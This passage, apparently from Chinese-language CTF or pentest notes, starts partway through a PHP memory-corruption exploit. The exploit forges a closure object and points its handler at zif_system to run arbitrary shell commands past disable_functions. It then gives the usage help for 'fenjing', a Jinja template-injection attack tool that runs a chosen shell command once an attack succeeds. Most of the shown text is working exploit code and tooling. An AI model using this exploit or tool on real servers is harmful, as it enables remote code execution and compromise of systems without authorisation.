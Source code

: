 ```php
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
 
    ($helper->b)($cmd);
    exit();
}

```

### jinja脚本fenjing

```bash
- scan: 扫描整个网站
- crack: 对某个特定的表单进行攻击
 
Usage: python -m fenjing scan [OPTIONS]
 
Options:
  --url TEXT       需要扫描的URL
  --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --help           Show this message and exit.
 
Usage: python -m fenjing crack [OPTIONS]
 
Options:
  --url TEXT       form所在的URL
  --action TEXT    form的action，默认为当前路径
  --method TEXT    form的提交方式，默认为POST
  --inputs TEXT    form的参数，以逗号分隔
  --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --help           Show this message and exit.
```
